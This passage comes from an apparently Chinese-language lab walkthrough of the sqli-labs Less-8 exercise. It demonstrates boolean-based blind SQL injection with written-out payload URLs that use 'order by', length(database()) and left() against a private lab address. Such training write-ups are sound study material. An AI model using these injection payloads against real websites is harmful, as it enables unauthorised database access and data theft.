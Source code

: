 `order by 3`出现`You are in`,`order by 4`没有,确认字段数为3。

### 获取数据库 ###

#### 获取数据库名长度 ####

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 8=length(database())%23`

![8](/img/sql/Lesson-8/8.png)

#### 获取数据库名 ####

left(str,n):截取字段`str`左侧的n个字符。

`http://10.60.250.151/sqlilabs/Less-8/?id=1' and 's'=left(database(),1)%23`

返回正确页面,确认第一个字符是`s`

![9](/img/sql/Lesson-8/9.png)
